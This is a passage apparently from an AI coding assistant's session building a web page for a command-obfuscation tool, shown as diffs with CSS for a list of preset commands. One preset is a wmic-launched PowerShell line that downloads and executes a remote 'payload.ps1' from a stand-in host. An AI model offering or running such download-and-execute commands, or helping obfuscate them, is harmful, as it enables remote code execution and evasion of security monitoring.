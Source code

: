 ```diff
+                                         <div class="command-code">wmic process call create "powershell -c IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')"</div>
+                                     </div>
+                                 </div>
                              </div>
                              <textarea id="input-command" placeholder="Please paste the command you want to obfuscate here…" tabindex="0" autocomplete="off" autocorrect="off" autocapitalize="off" spellcheck="false"></textarea>
```

---

现在让我们添加相应的CSS样式:

---

```diff
      }
  }
+ 
+ /* 常用命令列表样式 */
+ .command-list {
+     margin-bottom: 20px;
+     background: rgba(255, 255, 255, 0.1);
+     border-radius: 8px;
+     padding: 15px;
+ }
+ 
+ .command-list h3 {
+     margin: 0 0 15px 0;
+     color: white;
+     font-size: 18px;
+ }
+ 
+ .command-grid {
+     display: grid;
+     grid-template-columns: repeat(auto-fill, minmax(300px, 1fr));
+     gap: 15px;
+ }
+ 
+ .command-item {
+     background: rgba(255, 255, 255, 0.95);
+     border-radius: 6px;
+     padding: 12px;
+     cursor: pointer;
+     transition: all 0.3s ease;
+ }
+ 
+ .command-item:hover {
+     transform: translateY(-2px);
+     box-shadow: 0 4px 12px rgba(0, 0, 0, 0.1);
+ }
+ 
+ .command-title {
+     font-weight: bold;
+     color: #333;
+     margin-bottom: 8px;
+ }
+ 
+ .command-code {
+     font-family: Monaco, Menlo, Consolas, monospace;
+     font-size: 12px;
+     color: #666;
+     background: #f5f5f5;
+     padding: 8px;
```